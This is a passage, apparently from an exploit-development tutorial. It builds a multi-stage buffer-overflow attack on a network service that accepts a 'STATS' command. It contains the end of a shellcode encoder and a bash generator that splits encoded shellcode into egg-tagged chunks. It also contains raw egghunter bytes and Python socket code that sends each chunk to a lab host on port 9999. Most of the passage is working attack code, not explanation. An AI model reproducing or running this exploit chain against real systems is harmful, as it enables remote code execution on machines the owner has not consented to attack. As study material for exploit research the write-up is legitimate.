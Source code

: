 ```
            push  = [ "50" ]
            print "".join(clear + sub + push)

    return 0

if __name__ == "__main__":
    sys.exit(main())
```

Next, we write a quick script to split the encoded shellcode into 90-byte
chunks.  Each chunk will be prepended with an egg and followed up by an
egghunter to look for the next section in the chain.  Note that the encoder
script prints one 'section' per line, where each section consists of either a
`PUSH <DWORD>` or a `AND/AND/SUB/SUB/PUSH` sequence.  By appending one of these
at a time until we've met our 90-byte limit, we ensure that we don't split the
chunks in the middle of an instruction.  We output this chain of
egghunter/shellcode pairs in the form of a python script:
```
#!/bin/bash

FILE=./shell-raw
CAVE_SIZE=96
EGG_BASE="00W"
EGG_SEQ=" ABCDEFGHIJKLMNOPQRSTUVWXYZ"

echo "#!/usr/bin/env python"
echo "import socket"
echo "import time"

C_COUNT=1
CAVE=""
for L in $(./encode.py "$(cat ${FILE})")
do
    NEW_C="${CAVE}${L}"
    if [ ${#NEW_C} -gt ${CAVE_SIZE} ]
    then
        EGG=$(echo -n "${EGG_SEQ:${C_COUNT}:1}${EGG_BASE}" | xxd -p)
        cat << EOF 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.186.135", 9999))

message  = "STATS "
message += "/.:/ "

# Cave ${C_COUNT} (${EGG}):
$(echo -n "${EGG}${EGG}${CAVE}" | hex)

buf += "\x31\xd2\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58"
buf += "\xcd\x2e\x3c\x05\x5a\x74\xef\xb8${EGG_SEQ:$((C_COUNT + 1)):1}\x30\x30\x57" 
buf += "\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

message += buf
message += '\n'
s.send(message)
s.close()
time.sleep(0.5)
EOF
        CAVE="${L}"
        C_COUNT=$((C_COUNT + 1))
    else
        CAVE=${NEW_C}
    fi
done

```